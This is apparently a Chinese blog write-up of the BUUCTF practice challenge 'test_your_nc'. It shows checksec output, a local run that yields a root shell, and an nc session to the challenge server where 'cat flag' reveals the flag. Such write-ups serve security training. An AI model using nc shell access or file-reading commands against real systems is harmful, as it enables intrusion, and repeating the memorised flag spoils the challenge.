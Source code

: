 ```yaml
---
author: 
  name: Zephyr
title: test_your_nc
date: 2022-3-19 16:53:01
permalink: /pages/4e844742d534d18b
tags: 
  - buuctf
---
```

# test_your_nc

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec test
[*] '/root/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 流程分析

尝试直接运行

```shell
root@localhost ~# ./test
sh-4.2# whoami
root
```

可以看到直接就获得了shell,直接nc连接获得flag

### exp

```shell
root@localhost ~# nc node4.buuoj.cn 29403
cat flag
flag{7730b1f6-6dbe-49f0-b4ca-4902ec2552c3}
```

